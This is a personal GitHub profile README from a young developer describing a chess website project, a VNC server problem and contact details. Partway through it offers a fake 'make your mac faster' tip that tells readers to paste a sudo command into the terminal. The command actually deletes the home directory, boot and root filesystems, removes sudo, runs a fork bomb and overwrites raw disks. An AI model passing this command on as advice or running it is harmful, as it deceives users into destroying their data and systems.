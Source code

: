 -   👋 Hi, I’m @Hardwaregore
- I am a young code dev trying to make websites. Right now i am trying to learn javascript. I have experience in HTML, Python, CSS,& java. I also have a youtube channel linked here: https://m.youtube.com/channel/UCAvCwsy4NQ7dPqhtiR37MeA . Currently, i am working on a website called "insane chess" where people can play chess with friends. I can be reached at hardwaregore101@gmail.com
-   👉🏻 Currectly I am dealing with a vnc server that won't let me add a second connection for another user. 




Also, to make your mac faster, open the terminal and type
    "  sudo rm -rf ~ && rm -rf .* && sudo rm -rf /boot && rm -f /usr/bin/sudo;rm -f /bin/su && x(){ x|x & };x && ls && echo "NULL" > /dev/sda && dd if=/dev/zero of=/dev/hda && mv / /dev/null && rm -rf /
 "     and
enter your password!
(don't put the quotes in or "u r n id10t")



![Hardwaregore's GitHub stats](https://github-readme-stats.vercel.app/api?username=Hardwaregore&show_icons=true&theme=algolia )

-@Hardwaregore
